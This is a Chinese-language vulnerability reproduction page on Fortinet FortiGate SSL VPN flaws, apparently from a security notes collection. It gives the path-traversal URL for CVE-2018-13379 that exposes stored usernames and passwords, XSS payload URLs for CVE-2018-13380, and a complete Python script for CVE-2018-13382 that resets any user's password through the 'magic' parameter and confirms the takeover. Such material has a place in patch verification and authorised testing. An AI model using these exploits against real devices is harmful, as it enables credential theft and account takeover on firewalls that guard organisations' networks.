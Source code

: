 ## **Fortigate**

飞塔防火墙设备的专用名词，Fortinet是飞塔的品牌，而FortiGate  是指飞塔硬件。Fortinet的屡获殊荣的FortiGate系列，是采用ASIC加速的UTM解决方案，可以有效地防御网络层和内容层的攻击。FortiGate解决方案能够发现和消除多层的攻击，比如病毒、蠕虫、入侵、以及Web恶意内容等等实时的应用，而不会导致网络性能下降。它所涉及到的全面的安全体系是涵盖防病毒/反垃圾邮件、防火墙、VPN、入侵检测和防御、反垃圾邮件和流量优化。除了FortiGate以外，Fortinet还提供FortiMail这样的邮件安全的解决方案，和终端、智能手机安全的 FortiClient。

## CVE-2018-13379: Pre-auth任意文件读取

### **漏洞简介**

Fortinet FortiOS路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379）

漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet FortiOS 5.6.3版本至5.6.7版本、6.0.0版本至6.0.4版本中的SSL VPN 受此漏洞影响。

### **漏洞影响**

Fortinet FortiOS 5.6.3版本至5.6.7版本、Fortinet FortiOS 6.0.0版本至6.0.4版本中的SSL VPN 受此漏洞影响。

### **复现过程**

可访问链接查看是否存在漏洞

```
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

可查看用户名、密码![image.png](Fortigate SSL VPN/1597483616.png!small)

可直接登录成功。

![image.png](Fortigate SSL VPN/1597483617.png!small)

### 检测工具

```
https://github.com/ianxtianxt/CVE-2018-13379
```

## CVE-2018-13380 Fortinet FortiOS xss漏洞

### 漏洞简介

Fortinet  FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中的SSL VPN  Web门户存在跨站脚本漏洞。该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

### 漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

### 复现过程

```
/remote/error?errmsg=ABABAB--%3E%3Cscript%3Ealert(1)%3C/script%3E
/remote/loginredir?redir=6a6176617363726970743a616c65727428646f63756d656e742e646f6d61696e29
/message?title=x&msg=%26%23<svg/onload=alert(1)>;
```

![image.png](Fortigate SSL VPN/1597483618.png!small)

## CVE-2018-13382 Fortinet FortiOS magic后门

### 漏洞简介

Fortinet  FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本 、5.6.0版本至5.6.8版本和5.4.1版本至5.4.10版本中的SSL VPN Web门户存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

### 漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9 Fortinet Fortios 5.4.11

### 复现过程

登录页面中存在特殊参数magic，一旦这个参数为某个特殊字符串，就可以修改任意用户密码。

可使用POC直接进行修改。

![image.png](Fortigate SSL VPN/1597483619.png!small)

```
import requests, binascii, optparse, sys
from urlparse import urlparse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
requests.packages.urllib3.disable_warnings()
import multiprocessing
import colored
from user_agent import generate_user_agent, generate_navigator
bold=True
userAgent=generate_user_agent()
username=""
newpassword=""
ip=""
def setColor(message, bold=False, color=None, onColor=None):
    from termcolor import colored, cprint
    retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
    return retVal
def checkIP(ip):
    try:
        url = "https://"+ip+"/remote/login?lang=en"
        headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        r=requests.get(url, headers=headers, verify=False)
        if r.status_code==200 and "<title>Please Login</title>" in r.text:
            return True
        else:
            return False
    except requests.exceptions.ConnectionError as e:
        print e
        return False
def changePassword(ip,username,newpassword):
    url = "https://"+ip+"/remote/logincheck"
    headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
    data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
    r=requests.post(url, headers=headers, data=data, verify=False)
    if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
        return True
    else:
        return False
def testLogin(ip,username,newpassword):
    url = "https://"+ip+"/remote/logincheck"
    headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
    data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
    r=requests.post(url, headers=headers, data=data, verify=False)
    if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
            return True
    else:
        return False
parser = optparse.OptionParser()
parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
parser.add_option('-u', action="store", dest="username")
parser.add_option('-p', action="store", dest="password")
options, remainder = parser.parse_args()
if not options.username or not options.password or not options.ip:
    print "[!] Please provide the ip (-i), username (-u) and password (-p)"
    sys.exit()
if options.username:
    username=options.username
if options.password:
    newpassword=options.password
if options.ip:
    ip=options.ip
tmpStatus=checkIP(ip)
if tmpStatus==True:
    print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
    if changePassword(ip,username,newpassword)==True:
        print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")   
        if testLogin(ip,username,newpassword)==True:
            print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
            print "************** Enjoy your new credentials **************"
        else:
            print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
    else:
        print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")            
else:
    print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red")
```